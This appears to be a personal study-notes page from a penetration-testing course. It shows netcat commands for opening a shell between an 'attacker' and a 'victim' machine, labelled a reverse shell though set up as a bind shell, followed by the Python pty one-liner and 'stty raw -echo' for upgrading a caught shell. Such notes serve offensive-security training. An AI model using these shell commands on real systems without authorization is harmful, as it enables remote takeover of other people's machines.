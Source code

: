 # Module 16 (File Transfers)

## Generating reverse shell commands <a href="#generating-reverse-shell-commands" id="generating-reverse-shell-commands"></a>

attcker machen

```bash
nc -nvlp 4444 -e /bin/bash
```

victim

```bash
nc -nv 192.168.x.x 4444
```

<figure><img src="../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

## Method 1: Python pty module <a href="#method-1-python-pty-module" id="method-1-python-pty-module"></a>

One of my go-to commands for a long time after catching a dumb shell was to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'                                      
```

```bash
stty raw -echo
```

